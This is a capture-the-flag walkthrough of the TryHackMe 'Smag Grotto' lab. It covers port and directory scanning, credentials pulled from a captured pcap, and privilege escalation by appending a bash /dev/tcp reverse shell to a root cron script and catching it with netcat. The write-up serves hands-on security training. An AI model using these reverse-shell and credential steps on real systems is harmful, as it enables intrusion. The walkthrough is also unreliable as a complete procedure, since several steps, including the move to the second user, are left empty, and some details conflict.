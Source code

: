 # Smag Grotto

<div align="left">

<figure><img src=".gitbook/assets/image (9) (1).png" alt=""><figcaption><p>tryhackme.com - © TryHackMe</p></figcaption></figure>

</div>

🔗 [Smag Grotto](https://tryhackme.com/room/smaggrotto)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.137.60`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.10.71.2 smag.thm" >> /etc/hosts

mkdir thm/smag.thm
cd thm/smag.thm
mkdir {nmap,content,exploits,scripts}

# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 smag.thm
PING smag.thm (10.10.71.2) 56(84) bytes of data.
64 bytes from smag.thm (10.10.71.2): icmp_seq=2 ttl=63 time=97.3 ms
64 bytes from smag.thm (10.10.71.2): icmp_seq=3 ttl=63 time=68.6 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix, while Windows systems usually have a TTL of 128 secs.

### 2.1 - What is the secret spicy soup recipe?

Of course, start to check information scanning open ports:

```bash
nmap --open -p0- -n -Pn -vvv --min-rate 5000 smag.thm -oG nmap/port_scan
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-31 18:24 EDT
Initiating SYN Stealth Scan at 18:24
Scanning smag.thm (10.10.71.2) [65536 ports]
Discovered open port 80/tcp on 10.10.71.2
Discovered open port 22/tcp on 10.10.71.2
Completed SYN Stealth Scan at 18:24, 18.21s elapsed (65536 total ports)
Nmap scan report for smag.thm (10.10.71.2)
Host is up, received user-set (1.8s latency).
Scanned at 2023-07-31 18:24:20 EDT for 19s
Not shown: 59890 closed tcp ports (reset), 5644 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there are 2 open ports on the machine: 22, 80.

Now, we need to search which services are running on open ports:

```bash
nmap -p22,80 -n -Pn -vvv -sCV --min-rate 5000 smag.thm -oN nmap/open_port
```

We can start to explore website (80):

<figure><img src=".gitbook/assets/Schermata del 2023-08-01 00-31-11 (1).png" alt=""><figcaption></figcaption></figure>

we see that website is under development, it means that can be vulnerabilities, try to explore source code:

<figure><img src=".gitbook/assets/Schermata del 2023-08-01 00-31-37.png" alt=""><figcaption></figcaption></figure>

Nothing of interesting! We can try to use gobuster to search hidden paths:

```bash
gobuster dir -u http://smag.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

```bash
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://smag.thm/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/31 18:35:16 Starting gobuster in directory enumeration mode
===============================================================
/mail                 (Status: 301) [Size: 303] [--> http://smag.thm/mail/]
Progress: 87664 / 87665 (100.00%)
===============================================================
2023/07/31 18:45:07 Finished
===============================================================
```

We find 'only' this good path: http:\\\smag.thm/mail

<figure><img src=".gitbook/assets/Schermata del 2023-08-01 00-38-33.png" alt=""><figcaption><p><a href="https://http/smag.thm/mail">http:\\smag.thm/mail</a></p></figcaption></figure>

Give focus on this .pcap file (wireshark extension), how first paragraph suggests, we can download all attachments using wget command.

<figure><img src=".gitbook/assets/Schermata del 2023-08-01 00-39-26.png" alt=""><figcaption></figcaption></figure>

We can open file downloaded using wireshark or command strings:

```
strings dHJhY2Uy.pcap 
```

<div align="left">

<figure><img src=".gitbook/assets/Schermata del 2023-08-01 00-49-23.png" alt=""><figcaption></figcaption></figure>

</div>

There's a fantastic info: username=helpdesk\&password=cH4nG3M3\_n0w

We can use this credentials to try ssh access:

```bash
ssh helpdesk@smag.thm
```





### Task 3 - What is the user flag? 

\


We quickly try to find user.txt flag using find command:\


```bash
```







```bash
```

<details>

<summary>🚩 Flag 1 (user.txt)</summary>



</details>

### Task 4 - What is the root flag? 



We can continue to explore files:

```bash
ls -lah *
    -rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
    
    Documents:
    total 20K
    drwxr-xr-x 2 lennie lennie 4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
    -rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
    -rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
    
    scripts:
    total 16K
    drwxr-xr-x 2 root   root   4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
    -rw-r--r-- 1 root   root      1 May 15 13:38 startup_list.txt

cat scripts/*
cat Documents/*
cat /etc/print.sh
ls -lah /etc/print.sh
	-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

We see that planner.sh will be run as root (with a cron job), and use /etc/print.sh with lennie permission, we can modify it inserting a reverse shell as payload:

```bash
echo "/bin/bash -i >& /dev/tcp/10.9.80.228/666 0>&1" >> /etc/print.sh                                                     
```

Then, we run on our kali machine netcat on the same port (666):

```bash
nc -nvlp 666
```

and wait root that will run the planner.sh script once a minute.

<figure><img src=".gitbook/assets/Schermata del 2023-07-30 12-37-21.png" alt=""><figcaption></figcaption></figure>

Well done! We find root flag:

```bash
ls
cat root.txt
```

<div align="left">

<figure><img src=".gitbook/assets/Schermata del 2023-07-30 12-38-55.png" alt=""><figcaption></figcaption></figure>

</div>

<details>

<summary>🚩 Flag 2 (root.txt)</summary>



</details>
